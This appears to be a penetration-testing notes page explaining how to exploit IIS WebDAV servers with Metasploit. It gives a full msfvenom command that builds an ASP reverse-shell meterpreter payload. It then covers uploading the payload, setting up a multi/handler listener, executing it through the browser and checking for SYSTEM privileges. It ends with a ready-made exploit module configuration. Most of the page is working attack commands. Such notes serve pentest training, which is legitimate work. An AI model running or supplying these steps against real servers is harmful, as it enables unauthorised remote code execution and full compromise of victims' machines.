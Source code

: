 # Exploiting WebDAV with MetaSploit

## Contents
- [Payload Prep](#)
  - [1. MSFVenom](#)
  - [2. Upload the Payload](#)
  - [3. Set up a Listener](#)
  - [4. Browser to Execute](#)
  - [5. Reverse Shell](#)
- [Automated Exploit](#)

## Payload Prep

### 1. MSFVenom
> msfvenom is a Metasploit tool that allows you to generate payloads (e.g., reverse shells, remote access, etc.)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local host ip] LPORT=[local port number] -f asp > shell.asp
```
- `-p` for payload
- `-f` for file format
- This prepares a reverse shell meterpreter session

### 2. Upload the Payload
- Use [cadaver](exploit_webdav.md#5-cadaver) to upload the payload (shell.asp)

### 3. Set up a Listener
- Set up a listener on the port you designated in the msfvenom command above.
- Start up `msfconsole`:
  - Load the multi/handler module: `use multi/handler`
  - Set your payload (it has to be the same payload you specified in the msfvenom build): `set payload windows/meterpreter/reverse_tcp`
  - Set LHOST and LPORT (same as msvenom)
  - Check your options.
  - `run` will start up the listener (the reverse TCP handler)

### 4. Browser to Execute
- Go back to your browser, the webdav directory, and execute the payload.

### 5. Reverse Shell
- Back to Metasploit and you should have a reverse shell into the target
- Run `sysinfo` to get info on the target machine
- Run `getuid` to check out who you are on the target machine. (NT AUTHORITY/SYSTEM indicates we are admin/root)

## Automated Exploit
> You can do all of the above using one MetaSploit module.
```
use exploit/windows/iis/iis_webdav_upload_asp
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
set RHOST [IP]
set PATH /[SUBDIR]
    # example: /webdav/
run
```
